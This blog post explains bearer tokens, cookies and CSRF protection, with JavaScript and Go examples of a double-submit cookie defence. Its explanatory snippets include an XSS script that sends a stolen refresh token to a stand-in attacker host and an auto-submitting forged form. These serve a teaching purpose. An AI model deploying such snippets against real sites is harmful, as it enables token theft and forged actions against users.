 ```yaml
---
title: 'Web Security: Cookies and CSRF'
date: '2025-07-31'
tags: web-security, authentication, csrf, web-development, security
ai-gen: true
---
```


Recently, I dove into authentication and CSRF (Cross-Site Request Forgery) protection while building a modern web app with both browser and mobile clients. Here's what I learned about keeping your applications secure.

## Bearer Tokens vs. Cookies for Authentication

### Bearer Tokens

- Sent in the `Authorization` header: `Authorization: Bearer <token>`
- Ideal for mobile, desktop apps, and SPAs
- Not sent automatically by browsers - must be set explicitly
- Immune to CSRF attacks (malicious sites can't set custom headers)

### Cookies

- Automatically sent by browsers with every request
- Can be secured with `HttpOnly` flag
- Vulnerable to CSRF attacks if not properly protected
- Browsers will send cookies even for malicious cross-site requests

## Understanding CSRF and Its Impact

**CSRF (Cross-Site Request Forgery)** occurs when a malicious website tricks a user's browser into making unwanted requests to your backend. If your application only checks for valid cookies, an attacker could perform actions on behalf of your users without their knowledge.

## When Is CSRF Protection Necessary?

- **Cookies for authentication?**

Use case: Storing refresh token in cookie is safest way in the web.

**Alternative - localStorage is prone to XSS**: Storing refresh tokens in localStorage creates a significant security vulnerability. If an attacker successfully injects malicious JavaScript (XSS), they can easily steal the token:

```javascript
// Malicious script injected via XSS
const stolenToken = localStorage.getItem('refreshToken');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});
```

**Why cookies are safer**: Even with XSS, HttpOnly cookies cannot be accessed by JavaScript, making them immune to token theft.

- ✅ Required for all state-changing endpoints (POST, PUT, DELETE, etc.) e.g. `/refresh` and `/logout`

**CSRF Attack Example**: Consider a banking application where a user is logged in. An attacker creates a malicious website that automatically submits a form to the bank's logout endpoint:

```html
<!-- Malicious website form -->
<form action="https://bank.com/logout" method="POST" id="csrf-form">
  <input type="hidden" name="action" value="logout">
</form>
<script>
  // Automatically submit the form when page loads
  document.getElementById('csrf-form').submit();
</script>
```

If the user visits this malicious site while logged into their bank account, they could be logged out without their knowledge. With CSRF protection, the bank would require a valid CSRF token in the request headers, which only the legitimate bank website can provide.

- **Bearer tokens in headers?**
  - ❌ Not needed
  - Browsers can't set `Authorization` headers on cross-origin requests

## How CSRF Protection Works

The standard defense is the **double-submit cookie** pattern:

1. Server sets a CSRF token cookie (not `HttpOnly`)
2. Frontend JavaScript reads this token and sends it in a custom header (e.g., `X-CSRF-Token`)
3. Backend verifies the token in the header matches the cookie value

This works because while browsers automatically send cookies, only your legitimate frontend can read the CSRF token and include it in the request headers.

## Implementation Example

**Frontend (JavaScript):**

```javascript
// Get CSRF token from cookie
function getCSRFTokenFromCookie(): string | null {
  const match = document.cookie.match(/(?:^|; )csrf_token=([^;]*)/);
  return match ? decodeURIComponent(match[1]) : null;
}

// Get CSRF token from
async function getCSRFTokenSafe(): Promise<string> {
  const csrfToken = getCSRFTokenFromCookie();
  if (csrfToken && csrfToken.length > 0) {
    return csrfToken;
  }

  // Only try authenticated CSRF token endpoint
  await fetch('/csrf', {
    credentials: 'include',
  });

  const newCsrfToken = getCSRFTokenFromCookie();
  if (!newCsrfToken) {
    throw new Error('CSRF token not found');
  }

  return newCsrfToken;
}

// Read CSRF token from cookie and include in request
const csrfToken = await getCSRFTokenSafe()
fetch('/api/sensitive-action', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'X-CSRF-Token': csrfToken,
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({ action: 'update' }),
});
```

**Backend (Go example):**

```go
func SetCSRFCookie(w http.ResponseWriter, csrfToken string) {
	// Set the CSRF token as a cookie (session only)
	csrfCookie := http.Cookie{
		Name:     "csrf_token",
		Value:    csrfToken,
		Path:     "/",
		Secure:   os.Getenv("ENV") == "production",
		SameSite: http.SameSiteStrictMode,
		// Not httpOnly so JS can read it
	}
	http.SetCookie(w, &csrfCookie)
}

// csrf endpoint
func (h *TokenHandler) HandleGetCSRFToken(w http.ResponseWriter, r *http.Request) {
	// validate refresh token
	validationResult := h.validateRefreshToken(r)

	// If token is revoked/invalid, clear cookies and return 401
	if !validationResult.IsValid {
		utils.RespondWithJSON(w, http.StatusUnauthorized, nil)
		return
	}

	csrfToken, err := utils.GenerateCSRFToken() // a secure random key of 32 bytes
	if err != nil {
		log.Printf("Failed to generate CSRF token: %v", err)
		http.Error(w, "Internal server error", http.StatusInternalServerError)
		return
	}
	SetCSRFCookie(w, csrfToken)
	utils.RespondWithJSON(w, http.StatusOK, nil)
}

// CSRF middleware to protect state changing endpoints like /refresh or /logout
func CSRFMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        csrfCookie, err := r.Cookie("csrf_token")
        if err != nil {
            http.Error(w, "CSRF token missing", http.StatusForbidden)
            return
        }

        csrfHeader := r.Header.Get("X-CSRF-Token")
        if csrfHeader == "" || csrfHeader != csrfCookie.Value {
            http.Error(w, "Invalid CSRF token", http.StatusForbidden)
            return
        }

        next.ServeHTTP(w, r)
    })
}
```

## Key Security Takeaways

1. **Bearer tokens** are ideal for APIs and client-side applications
2. **Cookies** work well for web but require CSRF protection
3. Always use **HTTPS** to protect tokens in transit

_This article was generated with the assistance of Claude 4. Always review and adapt security practices to your specific use case and requirements._
